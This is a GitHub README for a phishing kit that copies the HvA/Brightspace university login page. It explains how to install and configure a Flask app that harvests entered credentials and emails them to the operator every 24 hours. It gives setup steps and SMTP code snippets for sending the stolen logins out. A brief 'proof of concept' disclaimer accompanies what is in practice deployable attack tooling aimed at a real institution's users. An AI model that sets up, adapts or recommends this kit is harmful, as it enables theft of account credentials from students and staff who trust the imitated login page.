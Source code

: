 # HVA-Brightspace-login-phishing-site
A HVA / Brightspace login fishing page that stores the harvested credentials and sends a mail every 24 hours with the credentials to your email


# HVA / Brightspace Login phishing page

This phishing page is a proof of concept and should not be used for any illegal activity!

![image](https://user-images.githubusercontent.com/99695922/207714240-ba838eb2-645c-4b43-85fa-1a69ddc4bb4e.png)


The phishing page works on desktop and mobile. Every 24 hours it will send a email with the harvested credentials to  a email of your liking.

This was made with [Tailwind](https://tailwindcss.com/) for the front-end and [Flask](https://flask.palletsprojects.com/en/2.2.x/) for the back-end.


## Installation

Clone this repository.

Then use the package manager [pip](https://pip.pypa.io/en/stable/) to install packages.

```bash
pip install -r requirements.txt
```

## Setup
Open app.py

change YOUR_SECRET_KEY to a secret key of your liking.

```python
app = Flask(__name__)
app.config['SECRET_KEY'] = 'YOUR_SECRET_KEY'
```
Change FROM_EMAIL to the email you are going to send then mail from.
Change TO_EMAIL to the email you are going to send the email to.

```python
    email = EmailMessage()
    email['Subject'] = f'information {datetime.datetime.now()}'
    email['From'] = 'FROM_EMAIL'
    email['To'] = 'TO_EMAIL'
```

Change FROM_EMAIL to the email you are going to send then mail from.

Change FROM_EMAIL_PASSWORD to the email password you are going to send the email from. Make sure the password you provided is compatible with the [SMTP servers](https://support.leapwork.com/s/article/HowcanIgetmySMTPserverPortusernamepassword633070924e681) from your email provider!

```python
    with smtplib.SMTP("smtp.office365.com", 587) as s:
        s.starttls()
        s.login('FROM_EMAIL', 'FROM_EMAIL_PASSWORD')
        s.send_message(email)
```

Change smtp.office365.com to the SMTP server of your provider, if your email provider is Office365 then you can skip this stap.
Change 587 to the port of the SMTP server the email provider uses.
Big ones: [Microsoft](https://support.microsoft.com/nl-nl/office/pop-imap-en-smtp-instellingen-8361e398-8af4-4e97-b147-6c6c4ac95353) , [Gmail](https://support.google.com/a/answer/176600?hl) and [Yahoo](https://help.yahoo.com/kb/SLN4724.html?guccounter=1&guce_referrer=aHR0cHM6Ly93d3cuZ29vZ2xlLmNvbS8&guce_referrer_sig=AQAAADrjXz1-m11zrZhIx972CRNXarnhPdnhwhb85biWlHoDK_LTW9LTFNnj4zCxcvZzG0NTwWgTJOGD67JVD1jcXtVi1udPhmZia8U5Aqud5CVQxVaFRz2ZwbLbR8l5fMSoYJSXFV4NBSnk8z2pubhMMWBtSs1mXrzKIJAjjePa9_FL).

```python
    with smtplib.SMTP("smtp.office365.com", 587) as s:
```


Ones everthing is done close and save app.py
then click one the LAUNCH.bat and see for your self!


## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
